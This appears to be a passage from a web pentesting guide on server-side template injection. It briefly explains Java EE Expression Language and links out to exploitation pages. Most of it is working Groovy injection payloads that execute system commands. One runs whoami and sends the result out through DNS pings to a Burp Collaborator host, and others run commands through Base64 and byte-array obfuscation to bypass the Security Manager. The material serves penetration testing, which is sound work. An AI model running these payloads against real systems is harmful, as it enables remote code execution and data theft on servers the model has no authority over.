 
Expression Language (EL) is a fundamental feature that facilitates interaction between the presentation layer (like web pages) and the application logic (like managed beans) in JavaEE. It's used extensively across multiple JavaEE technologies to streamline this communication. The key JavaEE technologies utilizing EL include:

- **JavaServer Faces (JSF)**: Employs EL to bind components in JSF pages to the corresponding backend data and actions.
    
- **JavaServer Pages (JSP)**: EL is used in JSP for accessing and manipulating data within JSP pages, making it easier to connect page elements to the application data.
    
- **Contexts and Dependency Injection for Java EE (CDI)**: EL integrates with CDI to allow seamless interaction between the web layer and managed beans, ensuring a more coherent application structure.
    

Check the following page to learn more about the **exploitation of EL interpreters**:

[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#groovy-java)

Groovy (Java)

The following Security Manager bypasses were taken from this [**writeup**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).



```
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
    cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
    assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
    cmd = "whoami";
    out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
    cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
    java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
